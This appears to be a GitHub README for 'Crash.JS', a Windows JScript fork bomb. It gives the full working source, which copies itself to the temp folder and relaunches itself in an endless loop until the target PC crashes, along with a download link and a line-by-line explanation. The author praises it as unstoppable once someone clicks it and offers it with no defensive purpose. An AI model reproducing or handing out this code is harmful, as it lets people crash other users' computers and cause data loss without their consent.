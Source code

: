 ## Preface

`Crash.JS` is a `JScript` file that [crashes](<https://en.wikipedia.org/wiki/Crash_(computing)>) any PC in a matter of seconds. It renders the target computer slow, then unresponsive, and continues until it simply crashes. The way it works is very simple: it runs copies of itself in a loop as quick as it can, which means that processes are started [exponentially](https://www.dictionary.com/browse/exponentially) more quickly every second. No PC can handle that much stress, and so after a small amount of time, it just gives up. If you would like to download it for yourself, just [click here](./Crash.js)!

## How it works

#code

Here is the whole code ran by the program:

```javascript
var fso = new ActiveXObject('Scripting.FileSystemObject');
var wsh = new ActiveXObject('WScript.Shell');

if (WScript.Arguments.length == 0) {
  fso.CopyFile(WScript.ScriptFullName, fso.GetSpecialFolder(2) + '\\');
  wsh.Run(fso.GetSpecialFolder(2) + '\\' + WScript.ScriptName + ' 1');
} else while (true) wsh.Run(WScript.ScriptFullName + ' 1');
```

It is divided into 3 major parts. The first one is the following:

```javascript
var fso = new ActiveXObject('Scripting.FileSystemObject');
var wsh = new ActiveXObject('WScript.Shell');
```

All this does is it initializes two variables (`fso` and `wsh`) for later use, so it is not that important. After that, the second part of the program gets run. Here it is:

```javascript
if (WScript.Arguments.length == 0) {
  fso.CopyFile(WScript.ScriptFullName, fso.GetSpecialFolder(2) + '\\');
  wsh.Run(fso.GetSpecialFolder(2) + '\\' + WScript.ScriptName + ' 1');
}
```

The job of this part is to make a copy of the program in a [temporary directory](https://en.wikipedia.org/wiki/Temporary_folder), so that if the original gets deleted, the infection continues. It has a very important statement in it: `if(WScript.Arguments.length == 0)`. This statement makes sure that the program was run by the user, so it only makes a copy of itself when you run it for the first time. Then, once a copy has been made, the third part of the program executes. It consists of the following:

```javascript
else while(true) wsh.Run(WScript.ScriptFullName + ' 1');
```

The key of this part is the `while(true)` section: it is used to execute the next statement in an infinite loop... and it turns out that the next statement runs the program again, but in a separate process. This is the part that actually crashes the computer, because the more [instances](<https://en.wikipedia.org/wiki/Instance_(computer_science)>) of this program are running, the more [instances](<https://en.wikipedia.org/wiki/Instance_(computer_science)>) will be created!

## Final Words

In my opinion, this is an very simple, but extremely effective little piece of software. However, some people may argue:

> Sure, but very powerful computers will take hours to even start to slow down!

And this is a fair point, except it's not. Powerful computers usually take even less time to come to a [halt](<https://en.wikipedia.org/wiki/Crash_(computing)>) for the simple reason that they can execute the program's code way faster, which also [crashes](<https://en.wikipedia.org/wiki/Crash_(computing)>) the computer quicker. This program is awesome because there is no way to stop it: once someone clicks on it, it's already too late!
